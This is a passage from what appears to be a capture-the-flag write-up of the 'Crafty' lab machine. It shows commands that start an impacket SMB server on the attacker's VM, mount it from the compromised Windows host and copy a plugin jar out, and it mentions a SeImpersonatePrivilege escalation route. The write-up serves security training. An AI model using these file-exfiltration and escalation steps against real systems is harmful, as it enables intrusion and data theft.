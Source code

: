 It's named `playercounter`, which makes me think it interacts with the webserver to calculate the number of joined players. 

![players](/assets/images/Crafty/2.png)

At the beginning I thought about editing the plugin, since it seems to interact with the webpage, to get a shell as the user that runs IIS (iisapppool), which usually has `SeImpersonatePrivilege` that will allow us to get `NT AUTHORITY SYSTEM`. However the privilege escalation is way easier, and we'll see later if the plugin interacts with the website or not when we pop up this box.
First of all, we'll bring that file into our attacker VM. After that, we can run `jd-gui` to decompile it. We need to follow these steps:

```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support -username ruycr4ft -password ruycr4ft
Impacket for Exegol - v0.10.1.dev1+20240403.124027.3e5f85b - Copyright 2022 Fortra - forked by ThePorgs

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Now we mount the share:

```bash
c:\Users\svc_minecraft\server\plugins>net use x: \\10.10.14.124\smbFolder /user:ruycr4ft ruycr4ft
The command completed successfully.
c:\Users\svc_minecraft\server\plugins>
```

And we copy the jar:

```bash
c:\Users\svc_minecraft\server\plugins>copy playercounter-1.0-SNAPSHOT.jar x:\
        1 file(s) copied.
c:\Users\svc_minecraft\server\plugins>
```

Then we need to run `sudo apt install jd-gui` and `jd-gui` to decompile the .jar file:
